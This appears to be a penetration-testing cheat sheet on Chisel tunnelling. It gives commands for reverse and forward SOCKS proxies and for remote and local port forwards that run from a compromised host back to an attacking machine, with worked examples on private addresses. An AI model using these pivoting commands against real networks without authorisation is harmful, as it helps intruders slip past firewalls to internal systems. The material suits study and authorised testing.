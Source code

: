 # Overview
>[!INFO]
>  Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Mainly useful for passing through firewall.

https://github.com/jpillora/chisel

## Reverse SOCKS Proxy

Reverse SOCKS Proxy connects back from a compromised server to a listener waiting on our attacking machine.

```bash
#Attacking machine
./chisel server -p LISTEN_PORT --reverse &

#Compromised host
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

```
"Note !!"
Despite connecting back to port `LISTEN_PORT`, the actual proxy has been opened on 127.0.0.1:`XXXX`. 
As such, we will be using port `XXXX` when sending data through the proxy.
```

* Note the use of `R:socks` in this command. "R" is prefixed to remotes when connecting to a chisel server that has been started in reverse mode. It essentially tells the **chisel client** that the server **anticipates the proxy** or **port forward** to be made at the **client side** (e.g. starting a proxy on the compromised target running the client, rather than on the attacking machine running the server).

***

## Forward SOCKS Proxy

Forward proxies are rarer than reverse proxies for the same reason as reverse shells are more common than bind shells; generally speaking, egress firewalls (handling outbound traffic) are less stringent than ingress firewalls (which handle inbound connections).

```bash
#Compromised host
./chisel server -p LISTEN_PORT --socks5

#Attacking machine
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

//PROXY_PORT - port that will be opened for the proxy.
```

* For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.

***

## Remote Port Forward

A remote port forward is when we connect back from a compromised target to create the forward.

```bash
#Attacking machine
./chisel server -p LISTEN_PORT --reverse &

#Compromised host
./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &

// LISTEN_PORT - the port that started the chisel server on
// LOCAL_PORT - the port that needs to be opened on the attacking machine to link with the desired target port.
```

* For example ,assume that the IP is `172.16.0.20`, the compromised server `172.16.0.5`, and our target is port `22` on `172.16.0.10`.
* The syntax for forwarding `172.16.0.10:22` back to port `2222` on our attacking machine would be as follows: `./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &` Connecting back to the attacking machine, functioning as a chisel server started with: `./chisel server -p 1337 --reverse &`
* This would allow us to access 172.16.0.10:22 (via SSH) by navigating to 127.0.0.1:2222.

***

## Local Port Forward

As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.

```bash
#Compromised host
./chisel server -p LISTEN_PORT

#Attacking machine
./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
```

* For example, to connect to `172.16.0.5:8000` (the **compromised host** running a **chisel server**), forwarding our **local port** `2222` to `172.16.0.10:22` (our intended target), use: `./chisel client 172.16.0.5:8000 2222:172.16.0.10:22`